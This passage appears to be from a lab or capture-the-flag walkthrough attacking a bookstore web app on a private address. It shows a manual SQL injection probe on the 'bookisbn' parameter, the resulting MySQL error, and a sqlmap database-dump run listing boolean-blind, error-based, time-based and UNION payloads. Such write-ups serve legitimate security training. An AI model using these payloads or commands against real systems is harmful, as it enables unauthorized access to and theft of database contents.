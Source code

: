     ![](/assets/images/fb3/fb2.png)
*   Trying:
    

`http://192.168.56.118/store/book.php?bookisbn=978-0-321-94786-4 or '1'='1`

Response is:

```
Can't retrieve data You have an error in your SQL syntax; 
check the manual that corresponds to your MySQL server version for the right syntax to use near '1'='1'' at line 1
```

**Using sqlmap to dump database:**

```
crazyeights@es-base:~$ sqlmap -u http://192.168.56.118/store/book.php?bookisbn=978-0-321-94786-4 --dump
[SNIP]
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: bookisbn (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: bookisbn=978-0-321-94786-4' AND 2942=2942 AND 'uGAX'='uGAX

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: bookisbn=978-0-321-94786-4' AND GTID_SUBSET(CONCAT(0x71707a7871,(SELECT (ELT(2352=2352,1))),0x71767a7071),2352) AND 'Dlzl'='Dlzl

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: bookisbn=978-0-321-94786-4' AND (SELECT 5367 FROM (SELECT(SLEEP(5)))ObXO) AND 'PTKg'='PTKg

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
```